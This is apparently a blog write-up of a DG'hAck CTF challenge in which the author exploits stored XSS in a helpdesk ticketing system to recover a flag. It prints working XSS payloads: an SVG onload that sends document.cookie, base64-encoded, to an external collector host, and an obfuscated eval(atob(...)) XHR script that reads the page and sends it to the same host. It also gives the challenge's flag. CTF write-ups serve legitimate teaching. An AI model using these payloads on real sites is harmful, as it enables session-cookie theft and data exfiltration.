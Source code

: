 ```yaml
---
title: "Writeup DG'hAck: Internal Support 2"
date: 2020-11-19T03:45:38+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


This is the second version of the [ticketing system](/blog/writeup-dghack-internal-support-1) presented in the CTF. We are greeted with the exact same interface. So let's try exactly the same payload:

```html
<svg onload="document.body.innerHTML=document.body.innerHTML.concat('<img src=\'https://enx8b5ofkwzw.x.pipedream.net/'.concat(btoa(document.cookie)).concat('\' />'))" />
```

After a few seconds, we manage to steal a cookie! However, we can't use it, as the session is ip-locked:

[![The IP-lock error message](/assets/dghack/internal-support-2-ip-denied.png)](/assets/dghack/internal-support-2-ip-denied.png)

Hmm. The challenge is quite similar to the last one, so we know that the flag is probably on the home page. Let's try reading it using some XHR!

The JS we'll inject is going to be:

```js
var request = new XMLHttpRequest();
request.onreadystatechange = function () {
    var DONE = this.DONE || 4;
    if (this.readyState === DONE){
        var encoded = btoa(request.responseText);
        document.location = 'https://enx8b5ofkwzw.x.pipedream.net?' + encoded;
    }
};
request.open('GET', '/', true);
request.send(null);
```

NOTE : we can't use the `fetch` api, the bot must not be that up to date.

Which translates to this payload:

```html
<svg onload="eval(atob('dmFyIHJlcXVlc3QgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKcmVxdWVzdC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSBmdW5jdGlvbiAoKSB7CiAgICB2YXIgRE9ORSA9IHRoaXMuRE9ORSB8fCA0OwogICAgaWYgKHRoaXMucmVhZHlTdGF0ZSA9PT0gRE9ORSl7CiAgICAgICAgdmFyIGVuY29kZWQgPSBidG9hKHJlcXVlc3QucmVzcG9uc2VUZXh0KTsKICAgICAgICBkb2N1bWVudC5sb2NhdGlvbiA9ICdodHRwczovL2VueDhiNW9ma3d6dy54LnBpcGVkcmVhbS5uZXQ/JyArIGVuY29kZWQ7CiAgICB9Cn07CnJlcXVlc3Qub3BlbignR0VUJywgJy8nLCB0cnVlKTsKcmVxdWVzdC5zZW5kKG51bGwpOw=='))" />
```

And there we go, after a few seconds, we get our html. In it, we find the todo-list :

```html
<section style="margin-top: 50px;" class="pt-95 pb-100">
  <div class="container">
    <div class="row justify-content-center">
      <div class="col-lg-8">
        <div class="section-title pb-20">
          <h4 class="title">TODOLIST</h4>
        </div>
      </div>
    </div>
    <div class="row justify-content-center">
      <div class="col-lg-8">
        <div class="section-title pb-20">

          <p class="text">
            - Fix the kernel panic problem on the servers
          </p>

          <p class="text">
            - Find a solution for the XSS on the helpdesk system
          </p>

          <p class="text">
            - Hide the flag &#34;BEtter_BUT_ST!LL_N0tttttttttt++Prfct!&#34; a little bit better
          </p>

        </div>
      </div>
    </div>
  </div>
</section>
```

Which contains the flag: `BEtter_BUT_ST!LL_N0tttttttttt++Prfct!`.

---

[View all of the DG'hAck articles](/tags/dghack).
